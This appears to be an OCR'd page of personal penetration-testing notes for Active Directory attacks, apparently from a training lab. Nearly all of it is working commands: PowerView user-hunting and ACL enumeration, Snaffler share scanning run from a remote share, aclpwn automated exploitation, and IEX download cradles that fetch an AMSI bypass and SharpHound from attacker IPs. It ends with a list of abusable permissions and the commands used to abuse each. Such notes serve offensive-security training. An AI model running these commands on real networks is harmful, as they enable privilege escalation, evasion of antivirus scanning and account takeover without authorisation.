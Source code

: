         //Foreign group memberships:  
            Get-DomainForeignGroupMember 
            Get-DomainForeignGroupMember -domain <otherDomain>
            get-domainforeignuser


    //##User Hunting:
        #Finds all machines on the current domain where the current user has local admin access
            Find-LocalAdminAccess -Verbose
        #Find local admins on all machines of the domain
            Find-DomainLocalGroupMember -Verbose
        #Find computers where a Domain Admin OR a specified user has a session
            Find-DomainUserLocation | Select-Object UserName, SessionFromName
        # Hunt for sessions of interesting users on machines where you have access:  
            Find-DomainUserLocation -CheckAccess | ?{$_.LocalAdmin -Eq True }
        #Confirming admin access
            Test-AdminAccess

    //File Share Scanning:
        \\192.168.49.121\visualstudio\snaffler.exe -s -o snaffler.log
        \\192.168.49.121\visualstudio\snaffler.exe -d domain.local -c <DCIP> -s -o snaffler_domain.log

    //Object Permissions:
        //***View Specific Object ACLs:  get-domainobjectacl -identity <CN> -domain abc.com -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName TargetGroup -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | select AceType,IsInherited,TargetGroup,ActiveDirectoryRights
        ***//Look for: GenericAll, GenericWrite, ForceChangePassword, AllExtendedRights, WriteDACL, etc.
        **Automated exploitation from kali:  aclpwn -f svc-alfresco -t htb.local --domain htb.local --server 10.10.10.161
        
        //Checking specific user:  Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
        //Users we have rights over:  Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
        //Groups we have rights over:  Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
        //Computers we have rights over:  Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
        //Tools:
            //Checking individual objects - aced.py:
                python3 aced.py prod.corp1.com/Offsec:lab@192.168.189.70
            //Bloodhound (if not using adPEAS.ps1):
                    (new-object system.net.webclient).downloadstring('http://192.168.45.158/amsi.txt') | IEX
                    (new-object system.net.webclient).downloadstring('http://192.168.45.210/SharpHound.ps1') | IEX
                    Invoke-Bloodhound -s
                    Invoke-BloodHound -CollectionMethod LoggedOn
        //Abusable Permissions:
            GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
            GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
            WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
            WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
            AllExtendedRights - ability to add user to a group or reset password; abused with Set-DomainUserPassword or Add-DomainGroupMember
            ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword